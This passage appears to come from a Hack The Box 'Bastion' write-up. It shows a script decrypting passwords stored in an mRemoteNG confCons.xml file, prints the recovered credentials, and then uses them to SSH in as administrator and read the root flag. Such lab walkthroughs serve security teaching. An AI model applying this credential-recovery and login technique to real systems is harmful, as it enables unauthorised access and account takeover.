 
It takes a `consCons.xml` file, and prints all the decrpyted passwords it can
find.

    
    
    root@kali# ./mRemoteNG-decrypt.py confCons.xml-orig 
    [+] Found nodes: 2
    
    Username: Administrator
    Password: thXLHM96BeKL0ER2
    
    Username: L4mpje
    Password: bureaulampje
    

This script is also available [on my
Gitlab](https://gitlab.com/0xdf/ctfscripts).

### SSH as administrator

With that password, I can ssh in as administrator:

    
    
    root@kali# ssh administrator@10.10.10.134
    administrator@10.10.10.134's password:
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    administrator@BASTION C:\Users\Administrator>
    

And I can grab `root.txt`:

    
    
    administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
    958850b9...
    

[](/2019/09/07/htb-bastion.html)

